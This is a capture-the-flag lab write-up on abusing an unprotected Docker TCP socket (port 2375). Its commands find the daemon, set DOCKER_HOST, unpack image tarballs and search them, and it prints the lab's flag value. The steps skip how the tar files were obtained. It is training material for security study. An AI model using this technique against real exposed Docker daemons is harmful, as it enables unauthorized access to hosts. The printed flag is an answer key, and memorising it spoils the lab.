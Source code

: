 ### Name : Misconfigured Docker Socket
### URL : https://attackdefense.com/challengedetails?cid=1194
### Type DevSecOps : Docker Breakouts  


  
**Important Note**: This document illustrates all the important steps required to complete this lab.
This is by no means a comprehensive step-by-step solution for this exercise. This is only
provided as a reference to various commands needed to complete this exercise and for your
further research on this topic. Also, note that the IP addresses and domain names might be
different in your lab.  

  
**Objective**: Leverage the unprotected TCP socket to escalate privileges and retrieve the flag
stored in the root directory of the host system!  

#### 1. List all processes listening on TCP ports of the local machine

```bash
sudo netstat  -nlptu
```
Conventionally Docker daemon is configured to listen on port 2375 for API requests sent over
unencrypted connections. Whereas 2376 is used for encrypted connections.

#### 2. Verify if the port 2375 is being used by the docker daemon.

```bash
curl localhost:2375/version
```
  
Output confirms that the Docker daemon is listening on TCP port 2375.  


#### 3. Docker client is installed on the host machine. Configure docker client to use the TCP Socket.  

```bash
export DOCKER_HOST="tcp://localhost:2375"
```

#### 4. Check the images available on local machine.

```
docker images
```

#### 5. Extract image

```
root@attackdefense:~# mkdir image
root@attackdefense:~# mv *.tar image
root@attackdefense:~# cd image/
root@attackdefense:~/image# for i in 1 2 3; do tar -xf $i.tar; done
root@attackdefense:~/image# ls
1.tar  2.tar  3.tar  bin  dev  etc  home  lib  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@attackdefense:~/image#
```

#### 6. Find the flag

```
root@attackdefense:~/image# find . -name *flag* 2> /dev/null
./etc/network/if-post-up.d/flag.txt
root@attackdefense:~/image# cat etc/network/if-post-up.d/flag.txt
c09f6e2ecff56dcae50c02c6a4d355fe
root@attackdefense:~/image#
```

